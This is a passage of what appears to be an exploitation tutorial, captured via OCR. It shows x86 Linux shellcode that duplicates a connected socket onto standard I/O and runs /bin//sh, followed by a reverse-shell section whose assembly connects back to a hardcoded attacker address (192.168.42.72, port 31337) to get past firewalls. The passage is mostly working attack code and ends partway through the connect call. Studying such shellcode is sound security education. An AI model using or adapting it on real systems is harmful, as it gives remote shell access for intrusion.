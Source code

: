 ```
  push edx          ;         sockaddr ptr = NULL,
  push esi          ;         socket fd }
  mov ecx, esp      ; ecx = argument array
  int 0x80          ; eax = connected socket FD

; dup2(connected socket, {all three standard I/O file descriptors})
  xchg eax, ebx     ; Put socket FD in ebx and 0x00000005 in eax.
  push BYTE 0x2     ; ecx starts at 2.
  pop ecx
dup_loop:
  mov BYTE al, 0x3F ; dup2  syscall #63
  int 0x80          ; dup2(c, 0)
  dec ecx           ; count down to 0
  jns dup_loop      ; If the sign flag is not set, ecx is not negative.

; execve(const char *filename, char *const argv [], char *const envp[])
  mov BYTE al, 11   ; execve  syscall #11
  push edx          ; push some nulls for string termination.
  push 0x68732f2f   ; push "//sh" to the stack.
  push 0x6e69622f   ; push "/bin" to the stack.
  mov ebx, esp      ; Put the address of "/bin//sh" into ebx via esp.
  push edx          ; push 32-bit null terminator to stack.
  mov edx, esp      ; This is an empty array for envp.
  push ebx          ; push string addr to stack above null terminator.
  mov ecx, esp      ; This is the argv array with string ptr
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```
### Reverse Shells
Since firewall policy can prevent a lot of por binding exokiuts from working, you can have a machine call back to your attackling host with a shell binded to a connection. To do so you simply have to use the code from above but instead use a ```connect()``` socket call. Since this problem did not exist with the port binding, because we listened on all IPs, it is important to note that your IP address must be stores in little endian notation. 
```
BITS 32

; s = socket(2, 1, 0)
  push BYTE 0x66    ; socketcall is syscall #102 (0x66).
  pop eax
  cdq               ; Zero out edx for use as a null DWORD later.
  xor ebx, ebx      ; ebx is the type of socketcall.
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; After syscall, eax has socket file descriptor.

  xchg esi, eax     ; Save socket FD in esi for later.

; connect(s, [2, 31337, <IP address>], 16)
  push BYTE 0x66    ; socketcall (syscall #102)
  pop eax
  inc ebx           ; ebx = 2 (needed for AF_INET)
  push DWORD 0x482aa8c0 ; Build sockaddr struct: IP address = 192.168.42.72
  push WORD 0x697a  ;   (in reverse order)    PORT = 31337
  push WORD bx      ;                         AF_INET = 2
  mov ecx, esp      ; ecx = server struct pointer
  push BYTE 16      ; argv: { sizeof(server struct) = 16,
  push ecx          ;         server struct pointer,
  push esi          ;         socket file descriptor }
  mov ecx, esp      ; ecx = argument array
```